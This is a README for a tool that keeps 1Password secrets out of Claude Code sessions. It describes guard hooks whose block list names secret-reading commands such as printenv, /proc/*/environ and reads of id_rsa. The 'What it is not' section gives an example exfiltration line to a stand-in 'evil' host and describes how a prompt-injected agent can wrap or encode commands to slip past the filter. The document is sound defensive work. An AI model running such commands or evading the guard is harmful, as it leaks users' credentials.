

# Claude-1Password

1Password for [Claude Code](https://claude.com/claude-code), done so that secrets **never** enter the
chat, the transcript, the command line or your shell history.



<sub>Rendered demo (`demo/demo.html`, `demo/render.sh`); the dialog is drawn after the real macOS one.</sub>

Three small tools plus a Claude Code skill that teaches Claude to use them:

| Tool | Job |
|---|---|
| **`op-store`** | Claude runs it; a **native dialog** opens *outside Claude's view*. You paste the key, click the **eye** to double-check it, press OK. It lands in 1Password. Claude only sees `OK op://Claude/Apify/credential`. |
| **`op-env`** | `op-env claude` resolves every `op://` reference in `~/.claude/.env.tpl` with **one** biometric prompt, exports them, and `exec`s Claude Code with the TTY intact. Every tool, hook, script and MCP server inherits the variables. Nothing on disk. |
| **`secret-dialog`** | The dialog. Native on each OS, with a reveal toggle: macOS (Swift), Windows (PowerShell/WinForms), Linux KDE (`kdialog`) and GNOME (GTK4 `PasswordEntry`). Fallbacks: AppleScript, zenity, `read -s`. |

```
$ op-store Apify          # dialog opens → paste → eye → OK
OK op://Claude/Apify/credential

$ echo 'APIFY_TOKEN=op://Claude/Apify/credential' >> ~/.claude/.env.tpl
$ op-env claude           # Touch ID once; $APIFY_TOKEN is now available to everything Claude runs
```

## The guard hooks (plugin install only)

The skill tells Claude the rules. The hooks catch the mistakes a well-behaved model still makes.
`hooks/guard.py` runs on five events:

| Event | What it catches | What happens |
|---|---|---|
| `UserPromptSubmit` | **You** paste something that looks like a secret (22 known token formats, `password:`/`token=` followed by a value, passwords inside URLs) | The prompt is blocked **and erased before Claude sees it**. You get a note: use `op-store`. Prefix the message with `#allow-secret` to send anyway. |
| `PreToolUse` Bash | `op read`, `op item get`, `op run`, `op inject`, `printenv`/`env`/`set`/`export -p`, `echo $TOKEN`, `/proc/*/environ`, `os.environ`, reading `.env*`, `credentials`, `.netrc`, `id_rsa`…, `bash -x op-store`, `op item create x=value`, `secret-dialog`, or a literal secret in the command | Blocked, with the reason. Claude is told to use `$VAR` from `op-env` or `op-store`. |
| `PreToolUse` Read/Grep/Glob | The Read tool on `.env*`, credential files, private keys; Grep for a secret value | Blocked. |
| `PreToolUse` Write/Edit/MultiEdit/NotebookEdit | A literal secret written into a file; writes into the guard itself or a settings file that switches it off | Blocked. Use `op://` or `${VAR}`. |
| `Stop` | Claude's last message asks you to *paste / send / cole / digite* a key, token or password into the chat (mentions of "the dialog" are fine) | Claude is sent back to do it right: run `op-store`. |

**What it is not.** A text filter, not a sandbox. A prompt-injected agent can wrap, split or encode a
command (`x=read; op $x …`, `curl https://evil/?t=$TOKEN`) and the filter will not see it; `tests/run.sh`
lists these as *known gaps* on purpose. There is no per-command override the model can type; only
you can disable it, with `CLAUDE_1PASSWORD_GUARD=off` in your own shell. If a wall is what you need,
put a credential proxy between the agent and the network (agent holds a placeholder, proxy injects the
real value) or run the agent as a separate OS user.

Fail-open: if neither `python3` nor `python` is on PATH, or the script errors, nothing is blocked
(`install.sh` self-tests this). Hooks come only with the **plugin** install; copying the skill folder
gives the rules without the hooks. Run `bash tests/run.sh` for the full case list.

## Why not just `op run -- claude`?

The child of `op run` gets no TTY, so Claude Code drops into non-interactive `--print` mode.
`op-env` resolves first, then `exec`s, so the terminal is preserved. And per-command `op read`
inside a session means a biometric prompt on every Bash call. Both problems are documented by the
community; this repo packages the fixes.

## Install

Requirements: [1Password CLI](https://developer.1password.com/docs/cli/get-started/) (`op` ≥ 2.x)
and the 1Password desktop app with **Settings → Developer → "Integrate with 1Password CLI"** turned on
(Touch ID / Windows Hello / PolKit). Or a [service account](https://developer.1password.com/docs/service-accounts/)
token in `OP_SERVICE_ACCOUNT_TOKEN`.

```bash
git clone https://github.com/lucas-saldanha-werneck/Claude-1Password.git
cd Claude-1Password
bash install.sh          # puts op-env / op-store / secret-dialog wrappers in ~/.local/bin,
                         # builds the macOS dialog (needs swiftc), creates ~/.claude/.env.tpl,
                         # self-tests the guard
op-env --check
```

Install the plugin so Claude gets the skill (the rules) **and** the hooks (the guard). Needs `python3`
or `python` on PATH:

```bash
claude plugin marketplace add lucas-saldanha-werneck/Claude-1Password
claude plugin install op-secrets@op-secrets
```
Copying `skills/1password/` into `~/.claude/skills/` gives the rules only, no hooks.

### Make plain `claude` do it (optional)

```bash
bash install.sh --wrap-claude          # installs ~/.local/opbin/claude
export PATH="$HOME/.local/opbin:$PATH"  # add to your shell profile, after other PATH lines
```
`claude` now starts through `op-env` every time, including through launchers that resolve `claude`
via PATH (tmux wrappers, auto-retry tools). Loop-safe: `op-env` marks the child with `OP_ENV_LOADED=1`
and the wrapper always hands `op-env` the real binary. If 1Password is locked, `op-env` warns and
starts Claude without secrets (`op-env --strict` refuses instead).

## Usage

```bash
op-store Apify                          # API Credential item, field `credential`, vault Claude
op-store --login UniFi --url https://192.168.0.1     # Login item: username (visible) + password (hidden)
op-store --update Apify                 # replace the value
op-store --vault Private --field password "Some item"

op-env claude                           # start Claude Code with the secrets
op-env claude --resume <id>             # any arguments pass through
op-env ./deploy.sh                      # any command, not only claude
op-env --check                          # diagnose
op-env --list                           # key names only
```

`~/.claude/.env.tpl` holds references only (safe to back up, never a value):
```
APIFY_TOKEN=op://Claude/Apify/credential
GITHUB_TOKEN=op://Claude/GitHub PAT/credential
```

MCP servers read the inherited variables with `${VAR}` in `.mcp.json`:
```json
{ "mcpServers": { "apify": { "command": "npx", "args": ["-y", "@apify/actors-mcp-server"],
  "env": { "APIFY_TOKEN": "${APIFY_TOKEN}" } } } }
```
HTTP MCP servers with a bearer token (must be added with `claude mcp add-json`):
```json
{ "type": "http", "url": "https://api.example.com/mcp",
  "headersHelper": "printf '{\"Authorization\": \"Bearer %s\"}' \"$(op read 'op://Claude/Example/credential')\"" }
```

## Platform status

| OS | Dialog backend | Eye | Status |
|---|---|---|---|
| macOS 13+ | Swift `NSAlert` + `NSSecureTextField` | yes | **tested** (create, `--update`, `--login`) |
| macOS (no Xcode) | AppleScript `display dialog … with hidden answer` | no | tested |
| Windows 10/11 (Git Bash / WSL) | PowerShell + WinForms | yes | untested, please report |
| Linux KDE (KF ≥ 5.84) | `kdialog --password` | yes (built in) | untested, please report |
| Linux GNOME | GTK4 `Gtk.PasswordEntry` (`python3-gi`); GTK3 fallback | yes | untested, please report |
| Linux other | `zenity --password` | no | untested |
| any TTY | `read -s` | no | tested |

## Security model, honestly

- **The vault does not isolate.** With the desktop-app integration, `op` can read every vault of your
  account while the app is unlocked. A `Claude` vault is tidy, not a boundary. For a real boundary,
  create a service account limited to that vault and turn the app integration off. (Verified: a service
  account scoped to `Claude` cannot even list the other vaults.)
- **Injected env vars are readable by the process, and by every child.** `op-env` keeps secrets off
  disk and out of the transcript, but every subprocess, hook and stdio MCP server that Claude Code starts
  inherits the **whole** environment (an unpinned `npx -y some-mcp-server` gets all your secrets), and
  same-user processes can read another process's environment (`ps -E` on macOS, `/proc/<pid>/environ`
  on Linux). The guard blocks the obvious `printenv`; it is a filter, not a wall. If you need a wall,
  look at credential proxies (agent holds a placeholder, proxy injects the real value).
- **`op-store` keeps the value off the command line.** The dialog's output goes to `op` as a JSON item
  through a pipe (`op` itself recommends this for sensitive values), never as an argument and never as
  an environment variable, so `ps` does not show it. Tracing is switched off inside the scripts.
  Single-line values only; multi-line secrets (PEM keys) go in through the 1Password app.
- **A service-account token in the session is a skeleton key.** `op-env` unsets
  `OP_SERVICE_ACCOUNT_TOKEN` before launching the command (`OP_ENV_KEEP_SA=1` to keep it).
- **`op://` references leak names** of vaults, items and fields. Keep those boring.
- Claude Code's own OAuth token is stored in the OS keychain readable by same-user processes
  ([Silverfort, 2026-07](https://www.silverfort.com/blog/skipping-the-lock-a-claude-code-cli-weakness-lets-any-macos-process-read-stored-credentials)). Not something this repo can fix.

## Credits

- The `op-env` "resolve once, then exec" pattern: [DAESA24's gist](https://gist.github.com/DAESA24/dc26fa5b63fcd6b4c688772c9d0eb5ca).
- The hidden-dialog store pattern: [mackinleysmith/1pass-secrets](https://github.com/mackinleysmith/1pass-secrets).
- The "never type secrets into Claude Code" rule and Terminal-launch flow: [kcmadden/claude-code-1password-skill](https://github.com/kcmadden/claude-code-1password-skill).
- 1Password docs: [CLI app integration](https://developer.1password.com/docs/cli/app-integration/), [secret references](https://developer.1password.com/docs/cli/secret-references/), [service accounts](https://developer.1password.com/docs/service-accounts/).

MIT. Not affiliated with 1Password or Anthropic.
